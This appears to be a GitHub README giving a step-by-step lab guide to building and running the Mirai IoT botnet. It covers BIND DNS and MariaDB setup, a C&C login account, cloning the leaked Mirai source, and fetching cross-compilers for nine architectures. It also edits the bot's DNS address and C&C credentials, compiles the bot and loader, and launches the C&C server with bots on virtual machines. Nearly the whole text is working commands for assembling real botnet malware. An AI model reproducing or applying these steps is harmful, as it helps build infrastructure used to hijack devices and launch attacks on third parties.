 # Build-a-Mirai-botnet
In this Experiment, I found a way to build a MIRAI botnet.

An installation guide has been given by Mirai's author:
https://github.com/jgamblin/Mirai-Source-Code/blob/master/ForumPost.md

# *Environment*
1. Fedora27 x64 workstaion with over 16G MEM.
2. Network capabilities.
3. VMware-station or vbox.

# *Requirements*
```bash
dnf install git gcc golang ElectricFence mysql mariadb-server mariadb-common bind bind-utils
dnf groupinstall "Development Tools" -y
dnf install gmp-devel -y
```

## Section 1 Setup dns server
### 1-1 Stop Dns server
```bash systemctl stop named
```
### 1-2 Edit /etc/named.conf
```conf
acl "trusted" {
	192.168.241.1; // Self DNS-server ip
};
options {
	listen-on port 53 { any; };
	listen-on-v6 port 53 { any; };
	directory 	"/var/named";
	dump-file 	"/var/named/data/cache_dump.db";
	statistics-file "/var/named/data/named_stats.txt";
	memstatistics-file "/var/named/data/named_mem_stats.txt";
	allow-query     { any; };

	recursion yes;

	dnssec-enable yes;
	dnssec-validation yes;

	managed-keys-directory "/var/named/dynamic";

	pid-file "/run/named/named.pid";
	session-keyfile "/run/named/session.key";

	/* https://fedoraproject.org/wiki/Changes/CryptoPolicy */
	include "/etc/crypto-policies/back-ends/bind.config";
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};

zone "." IN {
	type hint;
	file "named.ca";
};

include "/etc/named.rfc1912.zones";
include "/etc/named.root.key";

```
### 1-3 Edit /etc/named.rfc1912.zones
```conf
zone "changeme.com" IN {
	type master;
	file "changeme.com";
	allow-update { none; };
};
```
### 1-4 Restart named
```bash
systemctl start named
```

## Section 2 Setup mariadb-server mirai databases
### 2-1 Create mysql root password
```bash
mysqladmin -u root password password
```
### 2-2 Run ./scripts/db.sql
```bash
cat ./scripts/db.sql | mysql -uroot -p
```
### 2-3 Add cnc login account
```mysql
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```

## Section 3 Compile Mirai code
### 3-1 Download the Mirai code
```bash
git clone https://github.com/jgamblin/Mirai-Source-Code.git

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2

tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2

rm *.tar.bz2

mv cross-compiler-armv4l armv4l
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv6l armv6l
```
### 3-2 Make go home DIR
```bash
mkdir ~/go
```
### 3-3 Adding xcompile path in .bashrc
```bash
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
```
*source .bashrc*
```bash
source ~/.bashrc
```
### 3-4 Install GoLang Drivers
```bash
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellword
```
### 3-5 Edit Mirai code
*Edit ./mirai/bot/resolv.c DNS server ip*
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    /*
       Missing code ...
     */
    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(192,168,241,1); //Change here
    addr.sin_port = htons(53);

    /*
       Missing code ...
     */
}

```
*Edit ./mirai/cnc/main.go*
```go
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password" //Change here
const DatabaseTable string  = "mirai"
```
*Edit ./mirai/cnc/admin.go*
```go
headerb, err := ioutil.ReadFile("/root/Mirai_Code/mirai/prompt.txt") //Change here
```
### 3-6 Compile
```bash
cd ./mirai
./build.sh debug telnet
./build.sh release telnet
cd ../loader
./build.sh
```

## Section 4 Run Mirai Net
### 4-1 Run ./mirai/debug/cnc as root on PC:192.168.241.1
```bash
./mirai/debug/cnc
```
### 4-2 Telnet cnc
```bash
telnet 127.0.0.1
```
### 4-3 Run ./mirai/debug/mirai.dbg as root on VM-PCs
VM-PC1:192.168.241.108
VM-PC2:192.168.241.109
VM-PC3:192.168.241.110

